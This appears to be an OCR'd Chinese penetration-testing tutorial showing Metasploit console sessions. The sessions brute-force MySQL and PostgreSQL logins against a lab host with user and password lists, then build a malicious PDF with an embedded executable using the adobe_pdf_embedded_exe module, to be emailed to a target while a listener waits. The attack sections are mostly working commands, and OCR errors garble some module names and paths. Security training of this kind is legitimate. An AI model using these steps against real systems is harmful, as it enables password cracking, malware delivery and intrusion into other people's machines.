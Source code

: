 #### 渗透攻击 MySQL数据库服务
- MySQL 是一个关系型数据库管理系统。在web 服务器应用方面，MySQL数据库通常是用户的最优选择。如果管理员配置不当，就可能存在漏洞，如弱密码、用户权限配置
错误等。此时，渗透测试者可以尝试对其实施渗透测试。在 MSF 控制终端，提供了一个辅助模块 mysql_login，可以用来实施弱密码破解。
```c
//使用mysql_login模块，渗透攻击 MySQL 数据库服务
//使用mysql_login 模块
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary (scanner/mysq1/mysql login) >

//查看模块配置选项
msf5 auxiliary (scanner/mysql/mysql_login) > show options

//配置模块选项参数
//设置目标主机地址
msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.168.29.137
RHOSTS => 192.168.29.137
//设置用户文件
msf5 auxiliary (scanner/mysql/mysql login) > set USER FILE /root/users.txt
USER FILE => /root/users. txt
//设置密码文件
msf5 auxiliary(scanner/mysql/mysql login) > set USERPASS FILE /root/passwords. txt
USERPASS FILE => /root/passwords.txt

//实施渗透测试
msf5 auxiliary (scanner/mysql/mysql login) > exploit
```


#### 渗透攻击 PostgreSQL 数据库服务
- PostgerSQL 是一个自由的对象--关系数据库服务（数据库管理系统）。在某些情况下，用户也可以使用该数据库服务来存储数据，如 Metasploit。下面将介绍使用postgrs_login模块，对PostgreSQL数据库服务实施渗透测试
```c
//使用 postgres_login 模块，实施渗透攻击PostgreSQL数据库服务。
//选择postgres_login 模块
msf5 > use auxiliary/scanner/postgres/postgres login
msf5 auxiliary (scanner/postgres/postgres login >

//配置 RHOSTS 选项参数
msf5 auxiliary (scanner/postgres/postgres_ login) > set RHOSTS 192.168.29.137
RHOSTS =>192.168.29.137

//实施渗透测试
msf5 auxiliary(scanner/postgres/postgres login) > exploit
```

#### PDF 文件攻击
- PDF 是一种文件格式。该类型文件使用比较广泛，并且容易传输。在前面介绍的渗透测试方法，都是主动实施渗透测试。如果目标主机没有监听服务器类端口时，则需要使用被动渗透测试方式。此时，可以尝试向客户端发送一个带病毒的PDF文件，进而实施被动攻击。下面将介绍创建带病毒的 PDF文件，以实现被动滲透测试攻击
```c
//使用 Adobe PDF Embedded EXE 模块，创建 PDF 病毒文件
//使用adobe_pdf_embedded_exe 模块
msf> use exploit/windows/fileformat/adobe pdf embedded exe
msf5 exploit (windows/fileformat/adobe pdf embedded exe) >

//设置用户想要生成的 PDF 文件名
msf exploit (adobe pdf embedded exe) > set FILENAME test.pdf
FILENAME => test.pdf

//没置 INFILENAME选项。为了利用该PDF文件，使用该选项指定用户访问的PDF文件位置。如果用户没有一个合适的PDF攻击文件，也可以使用默认的模板文件template.pdf,则无须配置该选项
msf exploit (adobe pdf embedded exe) > set INFILENAME /root/evil.pdf
INFIIENAME => /root/evi1.pdf
//这里指定的PDF 文件中不能包含关键宇 Root。 否则，无法生成对应的带病毒PDF 文件。

//生成 PDF 病毒文件
msf exploit (adobe pdf embedded exe) > exploit
/*
输出的信息显示 test.pdf 文件己经生成，而且被保存到/usr/share/metasploit-framework/local 目录中。接下
来用户可以将创建好的 PDF 文件通过邮件或其他方式发送到目标主机，然后在本地建立监听。当目标主机用户打开该 PDF 文件时，将可能被攻击。
*/
